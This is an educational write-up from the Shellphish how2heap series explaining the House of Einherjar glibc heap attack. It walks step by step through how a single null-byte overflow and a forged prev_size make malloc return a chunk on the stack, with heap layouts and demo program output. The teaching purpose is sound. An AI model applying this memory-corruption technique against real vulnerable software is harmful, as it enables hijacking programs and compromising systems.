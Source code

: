 # Shellphish how2heap House of Einherjar

This is another section of the CTF team Shellphish's educational how2heap series. This section covers the House of Einherjar attack.

In order for this attack to work, the program must be compiled with the `tcache-option` option disabled for glibc. This attack will allow an attacker to get `malloc` to allocate a chunk of memory outside of the heap, however we need to know the address of where the fake chunk is, and we will need a single null byte overflow, and the abillity to overwrite the `previous_size` value for a heap chunk. 

## Exploitation Process

First we will allocate a single heap chunk `0x38` bytes large. This will be later used in our attack:

```
0:	0x38    :0x556a4b364010
```

Proceeding that we will create a fake chunk. This chunk will be located on the stack, however it can be located in the `bss`, `libc`, `heap` or anywhere that we can write to and know the address of:

```
0x0:	Previous Size:	0x100			:0x7fffbea426f0
0x8:	Chunk Size:		0x100
0x10:	fwd pointer
0x18:	bk pointer
0x20:	fwd size
0x28:	bk size
```

This chunk has five integers that we will need to write.  The first is the previous chunk pointer, which we have set to `0x100`. The next value is the chunk size value (the supposed size for our fake chunk) which we will also have set to `0x100` (however this will write over this value later). Proceeding that we will have the `fwd` and `bk` pointers (which are supposed to point to the next and previous free chunks) and the `fwd_size` and `bk_size` (supposed to be the corresponding sizes for the previous pointers). We will have the value for all of these bee the pointer to the fake chunk `0x7fffbea426f0`.

proceeding that we will now allocate another heap chunk `0xf8` bytes large:
```
0:	0x38	:0x556a4b364010
1:	0xf8	:0x556a4b364050
```

next we will execute an attack where we can write over the last byte of the size metadata for chunk `1` with a null byte `\x00` (this can be down with a null byte overflow). This will overwrite the `previous_chunk_in_use` bit, so the `malloc` will think that the previous chunk is free:

```
0:	0x38	:0x556a4b364010
1:	0xf8 previous_in_use bit = 0 with null byte overflow from chunk 0	:0x556a4b364050
```

For the next step, we will write a fake previous size to chunk `0`. The idea of this being that when we write the fake size to chunk `0`, we will then free chunk `1`. Since we overwrote the `previous_in_use_bit` to be `0x0`, when we free chunk `1` it will think that chunk `0` is also free. It will try to consolidate the chunk with the last chunk, which if we overflow the `previous_size` value for chunk `0` to be the difference between our fake chunk on the stack and chunk `1`, it will consolidate the chunk to the fake stack. Our fake chunk is at `0x7fffbea426f0`, and chunk `1` is at `0x556a4b364040` (when you factor in the `0x10` bytes of heap metadata) so the `previous_size` will be `0x556a4b364040 - 0x7fffbea426f0 = 0xffffd56a8c921950`:

```
0:	0x38 previous_size overwritten to 0xffffd56a8c921950						:0x556a4b364010
1:	0xf8 previous_in_use bit = 0 with null byte overflow from chunk 0			:0x556a4b364050
```

With that setup, we can now free chunk `1` and consolidate the heap to the fake chunk:

```
0:	0x38 (heap thinks this has been freed)			:0x556a4b364010
1:	0xf8 (freed)									:0x556a4b364050
```	

Now that the heap has consolidated to our fake chunk on the stack, we can just allocate another chunk, and we will get `malloc` to return a pointer to the stack (keep in mind, there is `0x10` bytes of heap metada):

```
0:	0x38 (heap thinks this has been freed)			:0x556a4b364010
1:	0xf8 (freed)									:0x556a4b364050
2:	0x200	Fake Chunk Allocated on Stack			:0x7fffbea42700
```

Just like that, we managed to allocate a fake chunk on the stack using a House of Einherjar attack!

## Code Running

Here is a copy of the code running:

```
$	./house_of_einherjar
Welcome to House of Einherjar!
Tested in Ubuntu 16.04 64bit.
This technique only works with disabled tcache-option for glibc, see build_glibc.sh for build instructions.
This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.

We allocate 0x38 bytes for 'a'
a: 0x556a4b364010
Since we want to overflow 'a', we need the 'real' size of 'a' after rounding: 0x38

We create a fake chunk wherever we want, in this case we'll create the chunk on the stack
However, you can also create the chunk in the heap or the bss, as long as you know its address
We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks
(although we could do the unsafe unlink technique here in some scenarios)
Our fake chunk at 0x7fffbea426f0 looks like:
prev_size (not used): 0x100
size: 0x100
fwd: 0x7fffbea426f0
bck: 0x7fffbea426f0
fwd_nextsize: 0x7fffbea426f0
bck_nextsize: 0x7fffbea426f0

We allocate 0xf8 bytes for 'b'.
b: 0x556a4b364050

b.size: 0x101
b.size is: (0x100) | prev_inuse = 0x101
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x100
This is easiest if b.size is a multiple of 0x100 so you don't change the size of b, only its prev_inuse bit
If it had been modified, we would need a fake chunk inside b where it will try to consolidate the next chunk

We write a fake prev_size to the last 8 bytes of a so that it will consolidate with our fake chunk
Our fake prev_size will be 0x556a4b364040 - 0x7fffbea426f0 = 0xffffd56a8c921950

Modify fake chunk's size to reflect b's new prev_size
Now we free b and this will consolidate with our fake chunk since b prev_inuse is not set
Our fake chunk size is now 0xffffd56a8c942911 (b.size + fake_prev_size)

Now we can call malloc() and it will begin in our fake chunk
Next malloc(0x200) is at 0x7fffbea42700
```
